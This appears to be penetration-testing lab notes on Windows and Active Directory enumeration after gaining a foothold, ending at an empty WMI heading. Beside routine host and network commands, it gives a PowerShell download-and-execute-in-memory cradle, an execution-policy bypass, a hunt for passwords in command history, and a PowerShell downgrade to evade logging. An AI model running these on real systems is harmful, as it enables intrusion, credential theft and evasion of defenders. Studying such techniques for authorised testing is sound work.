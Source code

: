 GET A LIST OF ALL USERS : `Get-ADUser -Filter * | Select-Object -ExpandProperty SamAccountName | Out-File "C:\user_list.txt"`

enum an acc : `Get-DomainUser -Domain FREIGHTLOGISTICS.LOCAL -Identity mssqlsvc |select samaccountname,memberof`
#### Basic Enumeration Commands


|**Command**|**Result**|
|---|---|
|`hostname`|Prints the PC's Name|
|`[System.Environment]::OSVersion.Version`|Prints out the OS version and revision level|
|`wmic qfe get Caption,Description,HotFixID,InstalledOn`|Prints the patches and hotfixes applied to the host|
|`ipconfig /all`|Prints out network adapter state and configurations|
|`set`|Displays a list of environment variables for the current session (ran from CMD-prompt)|
|`echo %USERDOMAIN%`|Displays the domain name to which the host belongs (ran from CMD-prompt)|
|`echo %logonserver%`|Prints out the name of the Domain controller the host checks in with (ran from CMD-prompt)|

#### Harnessing Powershell

| **Description**                                                                                                                                                                                                                               | **Cmd-Let**                                                                                                                |
| --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- | -------------------------------------------------------------------------------------------------------------------------- |
| Lists available modules loaded for use.                                                                                                                                                                                                       | `Get-Module`                                                                                                               |
| Will print the [execution policy](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-7.2) settings for each scope on a host.                                         | `Get-ExecutionPolicy -List`                                                                                                |
| This will change the policy for our current process using the `-Scope` parameter. Doing so will revert the policy once we vacate the process or terminate it. This is ideal because we won't be making a permanent change to the victim host. | `Set-ExecutionPolicy Bypass -Scope Process`                                                                                |
| Return environment values such as key paths, users, computer information, etc.                                                                                                                                                                | `Get-ChildItem Env: \| ft Key,Value`                                                                                       |
| With this string, we can get the specified user's PowerShell history. This can be quite helpful as the command history may contain passwords or point us towards configuration files or scripts that contain passwords.                       | `Get-Content $env:APPDATA\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt`                                 |
| This is a quick and easy way to download a file from the web using PowerShell and call it from memory.                                                                                                                                        | `powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"` |

We can evade logging by downgrading the PowerShell 
```powershell
powershell.exe -version 2
```

We can check protections using 
```powershell
Get-MpComputerStatus
```

#### Network Information

| **Networking Commands**              | **Description**                                                                                                  |
| ------------------------------------ | ---------------------------------------------------------------------------------------------------------------- |
| `arp -a`                             | Lists all known hosts stored in the arp table.                                                                   |
| `ipconfig /all`                      | Prints out adapter settings for the host. We can figure out the network segment from here.                       |
| `route print`                        | Displays the routing table (IPv4 & IPv6) identifying known networks and layer three routes shared with the host. |
| `netsh advfirewall show allprofiles` | Displays the status of the host's firewall. We can determine if it is active and filtering traffic.              |
#### Quick WMI checks
